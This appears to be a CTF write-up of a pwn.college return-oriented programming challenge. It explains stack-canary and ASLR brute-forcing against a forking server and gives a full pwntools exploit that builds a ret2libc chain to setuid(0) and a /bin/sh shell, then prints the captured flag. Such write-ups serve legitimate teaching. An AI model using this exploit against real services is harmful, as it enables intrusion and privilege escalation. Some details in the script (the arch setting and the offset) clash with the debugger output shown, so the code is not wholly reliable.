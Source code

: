 ```yaml
---
layout: post
title: (ROP) level 15
categories: pwn.college ROP
date: 2025-07-15 13:22:22 +0300
tags: ROP pwn.college stack-canary brute-force PIE ASLR ret2libc partial-overwrite kill-process
---
```


## Information 
- category: pwn

## Description 
> Perform ROP when the stack frame returns to libc!


## Write-up
**Connecting to the Challenge**

When you connect to the server at ```127.0.0.1``` on port ```1337``` using ```nc```, you'll notice that the program waits for input but gives no immediate output:
```bash
nc 127.0.0.1 1337
ABCD
Leaving!
### Goodbye!
```

**Protections in Place**
The binary has multiple protections enabled:
- ✅ **Stack** Canary
- ✅ **ASLR** (Address Space Layout Randomization)

There’s **no direct leak**, so we need to **bypass all of them** in order to build a successful exploit.

```bash
checksec babyrop_level15.1
[*] '/home/k1k0/Desktop/program-security-dojo/return-oriented-programming/level-15-1/_0/babyrop_level15.1'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

**Brute-Forcing the Stack Canary**
Since the program is running as a **forking server** and allows **unlimited reconnections**, we can **brute-force the stack canary one byte at a time**.

This method works because:  
- The canary is **at a fixed offset** from the input buffer. 
- The server forks a new process for each connection, so even if we crash one, the next attempt is fresh. 
- We can reuse the crash information to determine **which byte guess was correct**.

> This method is reliable as long as the process resets and the canary stays consistent between forks.
{: .prompt-tip}

We’ll use `pwndbg` to determine this offset by:
```plaintext
Thread 3.1 "babyrop_level15" hit Breakpoint 1, 0x00005f1a465d53a6 in main ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────────────────────────
 ► 0x5f1a465d53a6 <main+544>    call   read@plt                    <read@plt>
        fd: 0 (socket:[920827124])
        buf: 0x7ffc2f72e1c0 —▸ 0x5f1a465d3040 ◂— 0x400000006
        nbytes: 0x1000
───────────────────────────────────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffc2f72e160 ◂— 0
01:0008│-0b8 0x7ffc2f72e168 —▸ 0x7ffc2f72e328 —▸ 0x7ffc2f730154 ◂— 'SHELL=/run/dojo/bin/bash'
02:0010│-0b0 0x7ffc2f72e170 —▸ 0x7ffc2f72e318 —▸ 0x7ffc2f730137 ◂— '/challenge/babyrop_level15.1'
03:0018│-0a8 0x7ffc2f72e178 ◂— 0x100000000
─────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────
 ► 0   0x5f1a465d53a6 main+544
   1   0x78ac5dda3083 __libc_start_main+243
   2   0x5f1a465d426e _start+46
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> i f
Stack level 0, frame at 0x7ffc2f72e230:
 rip = 0x5f1a465d53a6 in main; saved rip = 0x78ac5dda3083
 called by frame at 0x7ffc2f72e300
 Arglist at 0x7ffc2f72e220, args: 
 Locals at 0x7ffc2f72e220, Previous frame's sp is 0x7ffc2f72e230
 Saved registers:
  rbp at 0x7ffc2f72e220, rip at 0x7ffc2f72e228
pwndbg> dist $rsi 0x7ffc2f72e228
0x7ffc2f72e1c0->0x7ffc2f72e228 is 0x68 bytes (0xd words)
pwndbg> 
```
> This offset tells us exactly how many bytes to send before reaching the canary.
{: .prompt-tip}

**Brute-Forcing the Frok to Bypass ASLR**

We already brute-forced the **stack canary**, and now we want to **find the full address of fork** on the stack to bypass **ASLR**.
From the program behavior, we know:

- When the **correct return address** is in place, the program prints `r"(\d+):\ttransferring control"` — this gives us clear feedback during brute-forcing.

- ASLR randomizes the **base address** of the libc every run.
- But if we know the address of `fork`, and we know the offset of `fork` , we can calculate the base address like this:
```plaintext
lib_base = ret_address - offset_of_fork
```

> This technique allows us to defeat ASLR without a memory leak — just behavior-based brute force.
{: .prompt-info}


## Exploit
```python
#!/usr/bin/env python3

from pwn import *
import re
import os
import signal

context(log_level="debug",arch="arm64")
offset_canary = 0x58
offset_fork = 0x23ff0


def brute_force(typeA,start=b"",canary=b"",length=8):
    current = start 
    while len(current) < length:
        for byte in range(0x0,0x100):
            try:
                with remote("127.0.0.1",1337) as p:
                    if typeA == "canary":
                        payload = b"A"*offset_canary + current + p8(byte)
                    elif typeA == "ret":
                        payload = b"A"*offset_canary + canary + b"B"*8 + current + p8(byte)
                    else:
                        log.warning(f"Error while build payload in {typeA}.")
                    
                    p.send(payload)
                    res = p.recvall(timeout=2)

                    if (typeA == "canary" and b"*** stack" not in res 
                    ) or (typeA == "ret" and b"transferring control" in res ):
                        current += p8(byte)

                        if typeA == "ret":
                            strPid = r"(\d+):\ttransferring control"
                            findIntPid = re.findall(strPid,res.decode("utf-8",errors="ignore"))
                            if findIntPid and findIntPid[0].isdigit():
                                try:
                                    pid = int(findIntPid[0])
                                    os.kill(pid,signal.SIGTERM)
                                    log.info(f"KILL PID {pid}.")
                                except Exception as e:
                                    log.warning(f"Error in killing pid: {e}.")
                            else:
                                log.warning(f"PID Not Found.")
                        break
            except Exception as e:
                log.warning(f"Error: {e}.")

    return current

def payload(canary,ret):
    libase = u64(ret.ljust(8,b"\x00")) - offset_fork
    lib = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    lib.address = libase
    
    rop = ROP(lib)

    return flat(
        b"A"*offset_canary,
        canary,
        b"B"*8,

        rop.ret.address,
        rop.rdi.address,
        0,
        lib.symbols["setuid"],

        rop.ret.address,
        rop.rdi.address,
        next(lib.search(b"/bin/sh\x00")),
        lib.symbols["system"],
    )

def attack():
    canary = brute_force("canary",start=b"\x00")
    ret = brute_force("ret",start=b"\xf0",canary=canary,length=6)

    log.success(f"Canary: {canary}.")
    log.success(f"Fork(): {ret}.")

    with remote("127.0.0.1",1337) as p:
        try:
            p.send(payload(canary,ret))
            p.interactive()
        except Exception as e:
            log.warning(f"Fail send payload: {e}.")

def main():
    attack()

if __name__ == "__main__":
    main()
```
## Flag
> Flag: ``` pwn.college{3QnRr5bCZGvxO9.APxAhJXCKPif-0VO2MDLwczN4czW}```





